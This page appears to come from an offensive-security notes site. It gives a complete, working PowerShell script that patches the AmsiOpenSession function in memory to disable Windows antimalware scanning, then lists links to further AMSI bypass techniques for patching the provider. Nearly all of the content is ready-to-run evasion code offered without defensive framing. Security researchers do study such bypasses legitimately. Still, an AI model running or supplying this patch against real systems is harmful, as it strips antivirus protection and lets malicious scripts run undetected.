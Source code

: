 

### Patch AmsiOpenSession

{% code title="amsiOpenSession.ps1" %}
```powershell
function lookupFunc {
    Param ($moduleName, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | ? { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp = @()
    $assem.GetMethods() | % {If($_.Name -eq "GetProcAddress") {$tmp += $_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $funcName))
}

function getDelegateType {
    Param (
        [Parameter(Position=0, Mandatory=$True)][Type[]] $argsTypes,
        [Parameter(Position=1)][Type] $retType = [Void]
    )

    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $argsTypes).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argsTypes).SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

[IntPtr]$funcAddr = lookupFunc amsi.dll AmsiOpenSession
$oldProtection = 0
$vp = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32],[UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtection)
$buf = [Byte[]] (0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtection)
```
{% endcode %}



### Patch AMSI Provider

- [https://www.blackhat.com/asia-22/briefings/schedule/#amsi-unchained-review-of-known-amsi-bypass-techniques-and-introducing-a-new-one-26120](https://www.blackhat.com/asia-22/briefings/schedule/#amsi-unchained-review-of-known-amsi-bypass-techniques-and-introducing-a-new-one-26120)
- [https://github.com/deepinstinct/AMSI-Unchained/blob/main/InitializationInterception.ps1](https://github.com/deepinstinct/AMSI-Unchained/blob/main/InitializationInterception.ps1)
- [https://github.com/deepinstinct/AMSI-Unchained/blob/main/ScanInterception_x64.ps1](https://github.com/deepinstinct/AMSI-Unchained/blob/main/ScanInterception_x64.ps1)
- [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patch-the-providers-dll-of-microsoft-mpoavdll](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patch-the-providers-dll-of-microsoft-mpoavdll)
- [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#scanning-interception](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#scanning-interception)
